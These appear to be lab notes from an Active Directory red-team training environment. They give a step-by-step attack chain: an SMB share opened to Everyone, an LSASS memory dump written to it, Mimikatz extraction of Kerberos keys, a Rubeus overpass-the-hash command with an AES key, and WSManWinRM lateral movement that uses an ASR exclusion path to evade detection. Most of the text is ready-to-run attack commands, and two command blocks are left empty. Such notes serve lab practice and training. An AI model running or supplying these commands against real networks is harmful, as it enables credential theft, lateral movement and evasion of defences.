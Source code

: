 Must have `FindLSASSPID` and `minidumpdotnet` ready first

Create a SMB share thats available to `Everyone` and `Guests`
```powershell
net share share=C:\AD\Tools\share /grant:Everyone,Full
```

Run `FindLSASSPID` from share
```powershell
\\DCORP-STD548.dollarcorp.moneycorp.local\share\FindLSASSPID.exe
```

Break execution chain
```powershell

```

Run minidumpdotnet
```powershell
\\DCORP-STD548.dollarcorp.moneycorp.local\share\\minidumpdotnet.exe 708 \\DCORP-STD548.dollarcorp.moneycorp.local\share\monkey1.dmp
```

> **Note:** Since the memory dump is being written to a fileshare, **you may need to wait for up to 10  minutes**. The dump file size will initially be `0KB` but eventually be something approximately `10MB`. 

Break execution chain again
```powershell

```

Extract credentials on host machine
```powershell
.\mimikatz.exe "sekurlsa::minidump C:\AD\Tools\share\monkey1.dmp" "sekurlsa::ekeys" "exit"
```

OPtH
```powershell
.\Loader.exe -path C:\AD\Tools\Rubeus.exe -args asktgt /user:dbadmin /aes256:ef21ff273f16d437948ca755d010d5a1571a5bda62a0a372b29c703ab0777d4f /domain:eu.eurocorp.local /dc:eu-dc.eu.eurocorp.local /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

To avoid detection, we can use the `WSManWinRM.exe` tool. We will append an `ASR` exclusion such as  `C:\Windows\ccmcache\` to avoid detections from the "Block process creations originating from `PSExec` and `WMI` commands" `ASR` rule. Run the below command from the process spawned as `dbadmin`:

> **Note:** if the tool returns a value of 0, there is an error with command execution.

We can see the command output by piping it to a file on a our share
```powershell
WSManWinRM.exe eu-sqlx.eu.eurocorp.local "cmd /c dir >> \\DCORP-STD548.dollarcorp.moneycorp.local\share\out.txt C:\Windows\ccmcache\"
```